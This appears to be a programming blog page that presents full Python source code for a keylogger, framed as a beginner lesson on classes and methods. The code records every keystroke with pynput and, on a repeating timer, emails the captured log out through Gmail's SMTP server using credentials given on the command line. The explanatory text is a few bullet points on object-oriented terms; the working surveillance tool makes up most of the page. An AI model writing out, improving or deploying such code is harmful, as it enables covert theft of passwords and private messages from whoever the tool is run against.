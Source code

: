```yaml
---
title: keylogger class
permalink: /permalinks/keylogger/keylogger
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script includes all methods and classes used by the keylogger.

-  Each function within a class is termed a method.
-  When instantiating an object instance as a class, automatically the methods are invoked and hence the first attribute of each method is named "self".
-  Call objects defined within a class using : `self.obj`.
-  A Constructor is automatically executed when a class is created.
-  An Attribute is a variable that can be used within the whole class and by its respective methods. (This is a secure alternative to using global definitions.)


### Code: 

```python
#!/usr/bin/env python

import pynput.keyboard
import threading
import smtplib
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-t", "--time-interval", dest="interval", help="Time Interval to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    if not options.interval:
        # code to handle error
        parser.error("\n[-] Please specify a valid Time Interval,  use --help for info.")
    if not options.password:
        # code to handle error
        parser.error("\n[-] Please specify a valid Password,  use --help for info.")
    return options

class Keylogger:
    # Constructor definition
    def __init__(self, time_interval, email, password):
        # Attribute definition
        self.log = "[!] Keylogger Started"
        self.interval = time_interval
        self.email = email
        self.password = password

    def append_to_log(self, string):
        self.log = self.log + string

    def process_key_press(self, key):
        try:
            current_key = str(key.char)
        except AttributeError:
            # Replace key.space as space
            if key == key.space:
                current_key = " "
            else:
                # Space special chars out
                current_key = " " + str(key) + " "
        self.append_to_log(current_key)


    # Recursive function
    def report(self):
        self.send_mail(self.email, self.password, "\n\n" + self.log)
        # Reset
        self.log = ""
        # Running timer on an alternate thread
        # Wait for 5 secs and report
        timer = threading.Timer(self.interval, self.report)
        timer.start()

    # Create SMTP server instance to send email
    def send_mail(self, email, password, message):
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()

    # Start keylogger
    def start(self):
        # Create instance
        keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
        # Start listener
        with keyboard_listener:
            self.report()
            keyboard_listener.join()

banner = """
    
|      ___           __   __   __   ___  __  
|__/ |__  \ / |    /  \ / _` / _` |__  |__) 
|  \ |___  |  |___ \__/ \__> \__> |___ |  \ 
                                            
[!] Keylogger Started >.<
  """
```